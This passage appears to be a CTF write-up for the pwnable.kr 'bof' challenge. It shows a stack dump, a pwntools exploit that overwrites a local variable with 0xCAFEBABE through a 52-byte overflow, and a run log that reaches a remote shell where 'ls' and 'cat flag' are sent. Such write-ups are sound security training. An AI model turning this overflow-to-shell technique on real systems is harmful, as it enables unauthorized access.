 ```
0028| 0xbffff01c ("mask")
0032| 0xbffff020 --> 0x80001f00 --> 0xffffffff 
0036| 0xbffff024 --> 0xb7fbb000 --> 0x1b1db0 
0040| 0xbffff028 --> 0x1 
0044| 0xbffff02c --> 0x8000049d (<_init+41>:	addesp,0x8)
0048| 0xbffff030 --> 0x1 
0052| 0xbffff034 --> 0x0 
0056| 0xbffff038 --> 0x80001ff4 --> 0x1f14 
0060| 0xbffff03c --> 0xf6e1bc00 
0064| 0xbffff040 --> 0xb7fbb000 --> 0x1b1db0 
0068| 0xbffff044 --> 0xb7fbb000 --> 0x1b1db0 
0072| 0xbffff048 --> 0xbffff068 --> 0x0 
0076| 0xbffff04c --> 0x8000069f (<main+21>:	moveax,0x0)
0080| 0xbffff050 --> 0xdeadbeef 
0084| 0xbffff054 --> 0x80000250 --> 0x6e ('n')
0088| 0xbffff058 --> 0x800006b9 (<__libc_csu_init+9>:	addebx,0x193b)
0092| 0xbffff05c --> 0x0 
0096| 0xbffff060 --> 0xb7fbb000 --> 0x1b1db0 
```

那么exp：
​    

```
from pwn import *
context.log_level = 'debug'
cn = remote('pwnable.kr', 9000)
#cn = process('./bof')
#cn.recv()
pay = 'a'* 52 + p32(0xCAFEBABE)
cn.sendline(pay)
cn.interactive()
```

运行：

```
mask@mask-virtual-machine:~/PWNABLE.KR/bof$ python exp.py 
[!] Pwntools does not support 32-bit Python.  Use a 64-bit release.
[+] Opening connection to pwnable.kr on port 9000: Done
[DEBUG] Sent 0x39 bytes:
00000000  61 61 61 61  61 61 61 61  61 61 61 61  61 61 61 61  │aaaa│aaaa│aaaa│aaaa│
*
00000030  61 61 61 61  be ba fe ca  0a│aaaa│····│·│
00000039
[*] Switching to interactive mode
$ ls
[DEBUG] Sent 0x3 bytes:
'ls\n'
[DEBUG] Received 0x21 bytes:
'bof\n'
'bof.c\n'
'flag\n'
'log\n'
'log2\n'
'super.pl\n'
bof
bof.c
flag
log
log2
super.pl
$ cat flag
[DEBUG] Sent 0x9 bytes:
'cat flag\n'
```